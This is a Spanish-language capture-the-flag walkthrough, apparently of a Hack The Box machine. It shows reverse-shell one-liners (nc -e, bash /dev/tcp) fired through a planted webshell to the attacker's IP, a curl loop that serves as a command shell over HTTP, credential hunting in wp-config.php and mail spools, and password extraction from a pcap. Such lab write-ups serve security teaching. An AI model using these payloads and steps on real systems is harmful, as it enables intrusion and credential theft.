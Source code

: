 ## Vuln exploit & Gaining Access {-}

### Crear una reverse shell desde la webshell {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En la web

    ```bash
    http://sec03.rentahacker.htb/shell.php?hidden=nc -e /bin/bash 10.10.14.20 443
    http://sec03.rentahacker.htb/shell.php?hidden=bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    http://sec03.rentahacker.htb/shell.php?hidden=bash -c "bash -i >& /dev/tcp/10.10.14.20/443 0>&1"
    http://sec03.rentahacker.htb/shell.php?hidden=bash -c 'bash -i >& /dev/tcp/10.10.14.20/443 0>&1'
    http://sec03.rentahacker.htb/shell.php?hidden=whoami | nc 10.10.14.20 443
    ```

Como aqui vemos que nada functionna, pensamos que hay reglas que son definidas en el *iptables*

### Creamos una FakeShell {-}

En el directorio exploits creamos un fichero `fakeShell.sh` que contiene

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
declare -r main_url="http://sec03.rentahacker.htb/shell.php"

while true; do
    echo -n "[~] " && read -r command
    echo; curl -s -X GET -G $main_url --data-urlencode "hidden=$command"; echo
done
```

Ya lo podemos lanzar con el commando `rlwrap ./fakeShell.sh`

> [ ! ] Notas: Las explicaciones del script se pueden ver en el video live en el minuto 1:15:38

Tambien se podria utilizar la heramienta creada por s4vitar [ttyoverhttp](https://github.com/s4vitar/ttyoverhttp)

### Enumeramos el equipo {-}

```bash
ls -l /home
whoami
ls -l /home/ib01c03
ls wp-config.php
find \-name wp-config.php
find / \-name wp-config.php
cat /home/ib01c03/www/wp-config.php
```

Vemos un fichero comprimido de wordpress. Buscamos el fichero de configuracion de wordpress que suele tener credenciales en
texto claro. Una vez encontrado lo mirramos con `cat`. Encontramos usuario y contraseña para el servicio mysql. Aqui no hay nada interresante.

### Checkeamos ficheros del servicio SMTP {-}

Los ficheros de email suelen ser guardados en el `/var/spool/mail`. Aqui vemos dos ficheros y une tiene credenciales para el **FTP** en texto claro.

### Conneccion por ftp {-}

```bash
ftp 10.10.10.155
Name: ib01ftp
Password: 
```

ya hemos podido entrar en la maquina. Vemos archivos y nos los descargamos a la maquina de attackante

```bash
binary
prompt off
mget *
```

Hay ficheros interessantes como `notes.txt` o `ib01c01.access.log` que nos dan pistas pero nosotros vamos a por el fichero `ib01c01_incident.pcap`

### Investigamos el fichero pcap con TShark {-}

```bash
tshark -r ib01c01_incident.pcap
tshark -r ib01c01_incident.pcap -Y "http.request.method==POST" 2>/dev/null
tshark -r ib01c01_incident.pcap -Y "http.request.method==POST" -Tjson 2>/dev/null
tshark -r ib01c01_incident.pcap -Y "http.request.method==POST" -Tfields -e tcp.payload 2>/dev/null | xxd -ps -r
```

Analizando aqui encontramos passwords que son codeadas en url-encode. Tratamos de connectar con el usuario de estos ficheros `ib01c01` con la 
nueva contraseña y pa dentro. Ya podemos ver el fichero **user.txt**

### Continuacion de la investigacion con Wireshark {-}

Aqui llegamos a una parte bastante complicada de explicar por escrito. Mejor verlo directamente con el video desde el minuto 1:40:45
De echo esta parte explica como encuentra un modulo rootkit en el systema y explica como tratarla.




